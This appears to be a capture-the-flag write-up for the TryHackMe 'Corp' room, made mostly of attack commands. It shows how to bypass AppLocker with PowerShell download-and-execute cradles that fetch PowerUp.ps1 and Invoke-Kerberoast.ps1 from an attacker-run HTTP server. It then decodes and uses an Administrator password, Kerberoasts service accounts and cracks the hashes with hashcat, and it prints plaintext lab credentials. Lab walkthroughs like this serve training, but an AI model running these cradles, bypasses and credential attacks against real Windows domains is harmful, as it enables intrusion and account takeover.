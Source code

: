 # Corp

**Room Link:** [https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)



## Bypassing Applocker



Load PowerUp.ps1 into memory.

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**PowerUp.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1') 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"Administrator" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

## Kerberoasting

Run the below command from the Administrator account we just got access to.

**Victim(powershell)**

```
setspn -T medin -Q ​ */*
```

<figure><img src="../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to Invoke-Kerberoast.ps1 so it runs automatically once downloaded

```
 Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

**Victim(powershell)**

```
powershell -ep bypass
powershell -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.131.240:81/Invoke-Kerberoast.ps1'))"
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

Run this to get rid of all the spaces.

**Kali**

```
cat hash.txt | sed 's/[[:space:]]//g' |tr -d '\n' | sed 's/$krb5tgs$23$*/\n&/g' > hash.txt
```

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

**Kali**

```
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyo.txt --force
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"fela" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: rubenF124
```



